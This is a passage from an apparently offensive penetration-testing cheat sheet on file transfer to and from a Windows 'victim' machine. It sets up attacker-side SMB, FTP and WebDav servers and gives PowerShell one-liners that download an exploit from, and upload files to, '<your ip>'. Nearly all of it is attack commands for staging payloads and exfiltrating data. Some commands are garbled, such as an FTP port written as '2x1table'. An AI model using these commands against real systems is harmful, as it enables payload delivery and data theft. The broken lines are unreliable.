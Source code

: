 Then copy it:
```console
PS C:\victim> copy \\<your ip>\share\<file>
PS C:\victim> Out-File \\<you ip>\share\<file>

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

If this happen we need to create it with credentials.
```console
zero@pio$ sudo smbserver.py share -smb2support /tmp/smbshare -user test -password pass
```

And then mount it:
```console
PS C:\victim> net use n: \\<your ip>\share /user:test pass
```

## FTP downloads 

With Python3 we can start a FTP server:
```console
zero@pio$ sudo pip3 install pyftpdlib
zero@pio$ sudo python3 -m pyftpdlib --port 2x1table
```

In the victim:
```console
PS C:\victim> (New-Object Net.WebClient).DownloadFile('ftp://<your ip>/<exploit>', '<ouput file>')
```

If we want to upload:
```console
PS C:\victim> (New-Object Net.WebClient).UploadFile('ftp://<your ip>/<file name>', '<path to file>')
```

## WebDav Server 

To start one:
```console
zero@pio$ sudo pip install wsgidav cheroot
zero@pio$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

Then we can connect:
```console
C:\victim> dir \\<your ip>\DavWWWRoot
```

For uploading files:
```console
C:\victim> copy <path to file> \\<your ip>\DavWWWRoot\
C:\victim> copy <path to file> \\<your ip>\sharefolder\
```
